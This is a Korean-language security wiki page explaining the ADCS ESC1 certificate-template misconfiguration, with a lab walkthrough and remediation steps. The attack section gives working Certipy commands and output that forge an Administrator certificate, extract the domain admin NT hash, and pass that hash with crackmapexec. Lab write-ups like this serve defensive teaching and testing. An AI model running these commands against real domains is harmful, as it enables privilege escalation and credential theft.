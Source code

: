 # ESC1

> 이 페이지와 하위 페이지들에 있는 ADCS와 관련된 개념 및 공격 방식은 모두 SpecterOps 사의 Will Schroeder 분과 Lee Christensen 분이 2021년에 작성하신 "[Ceritfied Pre-Owned](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)" 라는 백서를 기반으로 만들어졌습니다. 더 자세하게 알아보고 싶으신 분들은 레퍼런스 섹션의 백서를 참고해주시기 바랍니다.

### 개념&#x20;

ADCS의 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 라는  설정이  존재한다. 이 설정이 되어있는 취약  인증서 양식은 공격자 인증서 서명 요청을 보낼 때 자신이 원하는 유저를 주체로 특정해 보낼 수 있다. 예를 들자면,&#x20;

1. Choi -> CA: 저 인증서 서명 요청 드립니다. 근데 SAN (Subject Alternative Name) 특성은 choi가 아니라 `Administrator@choi.local` 이라는 도메인 관리자로 해주세요.&#x20;
2. CA -> Choi: 네, 인증서 발급하겠습니다. 요청대로 SAN에는 도메인 관리자 유저 이름을 넣어서 발급해드릴게요.&#x20;
3. Choi: 감사합니다. - 일반 도메인 유저에서 도메인 관리자로 권한 상승 성공.&#x20;

어이가 없을 정도로 간단하고 위험한 설정이지만, 실제로 존재하는 설정이다.&#x20;

### 전제 조건&#x20;

1. `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 설정 활성화&#x20;
2. Manager Approval 설정 비활성화&#x20;
3. Authorized Signature 설정 비활성화&#x20;
4. 해당 인증서 양식에 공격자의 유저가 인증서 발급 권한 존재 &#x20;
5. CA 서버가 공격자의 유저에게 인증서 발급 권한을 허용

### 실습&#x20;

#### ESC 1 정보 수집&#x20;

Certipy 를 통해 정보 수집을 한 뒤, ESC1 에서 취약한 인증서 양식을 찾았다. Certipy 의 출력을 살펴본다.&#x20;

```
Certificate Templates
  0
    Template Name                       : macUsers
    Certificate Authorities             : choi-DC01-CA
    [ ... ]
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    [ ... ]
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Authorized Signatures Required      : 0
    Requires Manager Approval           : False
    [ ... ]
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CHOI.LOCAL\Domain Admins
                                          CHOI.LOCAL\Domain Users
                                          CHOI.LOCAL\Enterprise Admins
    [ ... ]
    [!] Vulnerabilities
      ESC1                              : 'CHOI.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

많은 정보가 있지만, ESC1 을 사용하는데 있어 필요한 전제 조건들 4개를 살펴보자.&#x20;

1. `Enrollee Supplies Subject: True - CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`  설정이 활성화 되어 있다.&#x20;
2. Requires Manager Approval: False  - 비활성화 되어 있다.&#x20;
3. Authorized Signature: 0  - 비활성화 되어 있다.&#x20;
4. Enrollment Rights - `Choi.local\Domain Users` - CA 서버와 인증서 양식에 공격자의 유저 발급 권한 존재. 공격자 뿐만 아니라 도메인 유저 전체가 이 인증서 양식을 통해 도메인 관리자 인증서를 발급 받을 수 있는 상태다.&#x20;

#### 공격&#x20;

1. Certipy 를 이용해 원하는 타겟 유저의 이름을 SAN 으로 지정해 인증서를 발급 받는다.&#x20;

```
$ certipy req -u <user> -p <pass> -ca <CA> -target <CA-FQDN> -template <취약한-양식-이름> -upn <타겟-유저> 

예) $ certipy req -u low@choi.local -p 'Password123!' -ca choi-DC01-CA -target dc01.choi.local -template macUsers -upn Administrator@choi.local -dns dc01.choi.local 
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully requested certificate
[*] Got certificate with multiple identifications
    UPN: 'Administrator@choi.local'
    DNS Host Name: 'dc01.choi.local'
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```

2\. 발급 받은 인증서는 유저 인증에 사용할 수 있다. 도메인 관리자의 NT 해시를 획득한다.&#x20;

```
$ certipy auth -pfx <#1의 인증서 파일 이름> -dc-ip <DC-IP> 

예) $ certipy auth -pfx administrator_dc01.pfx -dc-ip 192.168.40.150                         
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@choi.local'
    [1] DNS Host Name: 'dc01.choi.local'
> 0
[*] Using principal: administrator@choi.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@choi.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

3\. 도메인 관리자의 NT 해시를 이용해 인증한다.&#x20;

```
$ cme smb <DC-IP> -u Administrator -H <NThash> -d <domain>
```



### 대응 방안&#x20;

* ESC1의 근본적인 문제는 특정 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 플래그가 활성화 되어 있다는 것이다. 이를 해결한다.&#x20;
* 프로덕션 서버에서는 충분한 테스트를 거친 뒤 설정을 해제한다.&#x20;
* CA 서버 > `certtmpl.msc` > 인증서 양식 오른쪽 클릭 > Properties > `Subject Name` 탭 > Supply in Request 설정 해제&#x20;
* `Supply in Request` 가 꼭 필요하다면 Properties > Issuance Requirements > CA Certificate Manager Approval 을 설정해 인증서 관리자 계정이 허락을 해야 인증서가 발급되도록 바꾼다.&#x20;

<figure><img src="../../../.gitbook/assets/image (6) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/esc1.png" alt=""><figcaption><p>CT-FLAG-ENROLLEE-SUPPLIES-SUBJECT 를 비활성화 한다</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (4).png" alt=""><figcaption><p>Certificate Manager Approval 을 활성화 한다</p></figcaption></figure>





### 레퍼런스&#x20;



{% embed url="https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf" %}

{% embed url="https://github.com/ly4k/Certipy" %}
